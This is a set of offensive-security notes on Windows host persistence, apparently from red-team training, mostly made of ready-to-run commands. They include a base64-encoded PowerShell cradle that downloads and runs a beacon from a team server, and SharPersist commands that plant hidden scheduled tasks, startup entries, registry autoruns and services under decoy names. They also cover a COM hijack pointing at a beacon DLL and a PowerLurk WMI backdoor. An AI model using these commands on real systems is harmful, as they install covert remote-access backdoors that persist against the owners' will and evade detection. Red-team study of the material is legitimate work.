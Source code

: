 # Host Persistence Notes

**Task Scheduler**

Creating a scheduled task that will execute a PowerShell payload once every hour

1. Create an IEX cradle that's base64 encoded, /a is our hosted beacon
   ```
   Windows:
   $str = 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
   Linux:
   set str 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   echo -en $str | iconv -t UTF-16LE | base64 -w 0
   ```
2. Execute it on the beacon for persistence
   ```
   execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -n "Updater" -m add -o hourly
   ```
    -t is the desired persistence technique.
    -c is the command to execute.
    -a are any arguments for that command.
    -n is the name of the task.
    -m is to add the task (you can also remove, check and list).
    -o is the task frequency.

**StartUp Folder**

Things that start automatically when a user first logs in
```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -f "UserEnvSetup" -m add
```
-f is the filename to save as

**Registry Autorun**

AutoRun values in HKCU and HKLM allow applications to start on boot. 

steps in beacon
```
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
-k is the registry key to modify.
-v is the name of the registry key to create.

**Hunting for COM Hijacks**

Easier to hunt for hijacks on our own machine first. Launch procmon64.exe from [sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

We want to filter for
1. RegOpenKey operations
2. where the Result is NAME NOT FOUND
3. and Path ends with InprocServer32

Be important to find a CLSID that isn't loaded often
Example CLSID that we found: HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32

Checking that it exists in HKLM but not in HKCU
```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
```
Now create a registry entry that points HKCU to a Beacon DLL
```
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
Can find hijackable COM in Task Scheduler with this powershell script
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Review this list for possible exploitation parts by rechecking the HKCU and HKLM like above, and how often they are ran, lik at every user login or something of that nature

## Elevated Host persistence

**Windows Services**

Create a new service as an elevated system, this will only run when the system is rebooted
```
cd C:\Windows
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe legit-svc.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t service -c "C:\Windows\legit-svc.exe" -n "legit-svc" -m add
```

**WMI Event Subscriptions**

Can abuse one of these in WMI
-EventConsumer
-EventFilter
-FilterToConsumerBinding

Can use [PowerLurk](https://github.com/Sw4mpf0x/PowerLurk) to abuse these
```
cd C:\Windows
upload C:\Payloads\dns_x64.exe
powershell-import C:\Tools\PowerLurk.ps1
powershell Register-MaliciousWmiEvent -EventName WmiBackdoor -PermanentCommand "C:\Windows\dns_x64.exe" -Trigger ProcessStart -ProcessName notepad.exe
```

When notepad is opened the DNS beacon will connect
